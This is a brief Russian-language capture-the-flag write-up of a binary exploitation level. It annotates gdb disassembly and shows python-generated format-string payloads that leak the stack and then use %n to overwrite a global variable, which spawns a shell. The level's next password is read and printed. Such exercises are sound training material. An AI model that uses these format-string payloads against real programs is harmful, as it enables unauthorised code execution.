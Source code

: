 

# Вызов функции 'fgets', защищенной от переполнения буфера
```
=> 0x80484c7 <v+35>:	call   0x80483a0 <fgets@plt>
```
# Можно увидеть вызов 'printf' с тем что мы ввели
```
0x80484cc <v+40>:	lea    eax,[ebp-0x208]
0x80484d2 <v+46>:	mov    DWORD PTR [esp],eax
=> 0x80484d5 <v+49>:	call   0x8048390 <printf@plt>
```
# сmp создается с неинициализированной переменной
```
=> 0x80484da <v+54>:	mov    eax,ds:0x804988c
0x80484df <v+59>:	cmp    eax,0x40
```
# если эта проверка прошла успешно, создается новая оболочка с помощью 'system("/bin/sh")'

# Мы будем использовать атаку форматной строки
# Сначала нам нужно распечатать память, пока мы не дойдем до адреса переменной, которую хотим изменить
```
$> python -c "print '\x8c\x98\x04\x08 %x %x %x %x'" > /tmp/payload3
$> cat /tmp/payload3 | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```
# Затем мы используем модификатор %n, чтобы изменить содержимое этой переменной
```
$> python -c "print '\x8c\x98\x04\x08' + 'a'*60 + '%4\$n'" > /tmp/payload3
$> cat /tmp/payload3 - | ./level3
```
# cat /home/user/level4/.pass
>b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

# ╮(￣_￣)╭
